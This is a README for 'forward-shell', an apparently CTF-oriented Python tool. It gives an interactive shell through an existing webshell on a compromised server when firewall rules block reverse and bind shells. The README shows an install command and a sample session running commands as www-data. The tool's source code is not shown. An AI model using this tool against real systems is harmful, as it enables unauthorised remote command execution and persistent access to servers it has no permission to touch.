 # forward-shell

Sometimes, when exploiting a vulnerability that allows you to execute system commands, it is not possible to get a shell with the traditional methods, due the firewall rules are blocking the incoming and outgoing traffic. In those situations is where the use of [forward shell](https://www.youtube.com/watch?v=-ST2FSbqEcU) is necessary. This script was written taking the [0xdf](https://www.youtube.com/watch?v=ny9MWj6XML4) explanations as reference.


## Installation

```
git clone https://github.com/ret2x-tools/forward-shell.git
```


## Usage

```
root@parrot:~$ python3 forward-shell.py http://www.site.com/webshell.php
(Cmd) whoami
www-data
(Cmd) upgrade
www-data@8f4bca8ef241:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@8f4bca8ef241:/var/www/html$ exit
exit
(Cmd) exit
```


## References

[https://www.youtube.com/watch?v=-ST2FSbqEcU](https://www.youtube.com/watch?v=-ST2FSbqEcU)

[https://www.youtube.com/watch?v=ny9MWj6XML4](https://www.youtube.com/watch?v=ny9MWj6XML4)
